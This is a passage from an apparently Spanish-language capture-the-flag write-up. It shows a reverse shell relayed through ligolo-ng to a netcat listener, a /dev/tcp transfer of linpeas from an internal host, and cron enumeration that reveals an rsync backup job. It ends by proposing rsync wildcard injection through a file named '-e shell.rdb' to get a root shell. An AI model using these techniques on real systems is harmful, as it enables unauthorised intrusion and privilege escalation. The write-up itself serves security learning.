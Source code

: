 ```
ligolo-ng » listener_add --addr 0.0.0.0:5550 --to 127.0.0.1:5555 # agregamos esto nuestro proxy

➜  soqui nc -nlvp 5555
listening on [any] 5555 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58666
www-data@www:/var/www/html$
```
### Enumerar www-data
```
www-data@www:/tmp$ cat < /dev/tcp/172.19.0.3/6666 > linpeas.sh
nc -nlvp 6666 < linpeas.sh 
./linpeas.sh # no abría porque no se descargo bien
# en estos casos a mi no me funcionaba si limpiaba la terminal la usaba como me la daba
# cuando no te deje o no te de el mismo hash intenta subir otro archivo y luego vuelve
```
Al enumerar encontramos cron jobs
```
-rw-r--r-- 1 root root     722 Jun 11  2015 /etc/crontab

/etc/cron.d:
total 16
drwxr-xr-x 1 root root 4096 Jul 15  2018 .
drwxr-xr-x 1 root root 4096 Jul 15  2018 ..
-rw-r--r-- 1 root root  102 Jun 11  2015 .placeholder
-rw-r--r-- 1 root root   38 May  4  2018 backup

www-data@www:/backup$ cat bac*
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
www-data@www:/backup$
```
Este comando me parece interesante ya que *.rdb podriamos inyectarle algun comando atras
```
rsync -a *.rdb rsync://backup:873/src/rdb/
```
Antes de intentar otra cosa intentamos descargar archivos pero no nos deja
```
ww-data@www:rsync -a rsync://backup:873/src/etc/passwd .
rsync: getcwd(): No such file or directory (2)
rsync error: errors selecting input/output files, dirs (code 3) at util.c(1056) [Receiver=3.1.1]
```
Viendo como funciona podriamos crear un archivo que se llame `-e shell.rdb` y otro llamado `shell.rdb` para asi una rev shell como `root`

<div style="text-align: center;">
